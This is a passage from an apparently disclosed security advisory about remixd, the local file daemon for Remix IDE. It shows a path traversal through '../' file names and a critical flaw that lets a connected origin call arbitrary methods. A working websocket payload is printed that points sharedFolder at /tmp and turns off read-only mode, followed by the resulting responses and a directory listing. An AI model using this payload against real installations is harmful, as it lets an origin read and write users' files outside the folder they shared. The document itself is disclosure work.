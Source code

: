 ```json
      "isDirectory": false
    }
  }
}
```

Note that this allows us (or any code running on the allowed origin --> plugins, etc) to read/write to any file on disk, outside the basedir `sharedFolder`.

Note that the reason why there is a `sharedFolder` setting is because we don't want to fully trust the origin.

Note that we can also write outside the `sharedFolder` in `remix-ide` by providing a filename that contains `../`.

![image](https://user-images.githubusercontent.com/2865694/112726110-f5766c80-8f1b-11eb-8e49-3ac651e76f9f.png)
![image](https://user-images.githubusercontent.com/2865694/112726143-2fe00980-8f1c-11eb-89de-ee01920a8da8.png)


### Origin can call arbitrary methods of `remixdClient.ts`/`gitClient.ts` - and remotely disable `readOnly` mode or change to a different basedir. (critical)

* change `sharedFolder` to any folder on disk without the users consent
* remotely remove read-only mode
* call any other function of the client implementations

Let's lift the security restrictions imposed by running remixd in readonly mode:

`node ./dist/libs/remixd/bin/remixd.js --shared-folder=/path/to/my/shared/sharedFolder --remix-ide=https://remix.ethereum.org --read-only`

Note: The assumption is that the origin can only mess with the `sharedFolder`. Let's break that assumption and just change to a new `sharedFolder` disabling the `read-only` mode: `sharedFolder=/tmp` and `readOnly=false`

```js
s.send(JSON.stringify({"id":3,"action":"request","key":"sharedFolder","payload":["/tmp", false],"requestInfo":{"from":"manager","path":"remixd"},"name":"remixd"}))
```

returns

```json
{"action":"emit","key":"rootFolderChanged","payload":[]}"
```

```json
{"action":"response","name":"remixd","key":"sharedFolder","id":3}
```

let's get the new basedirs contents (`/tmp/`)

```json
{
  "action": "response",
  "name": "remixd",
  "key": "resolveDirectory",
  "id": 3,
  "payload": {
    ".vbox-tintin-ipc": {
      "isDirectory": true
    },
    "com.apple.launchd.xxxx": {
      "isDirectory": true
    },
    "com.brave.xxxx.Sparkle.pid": {
      "isDirectory": false
    },
    "xxxx-debug.log": {
```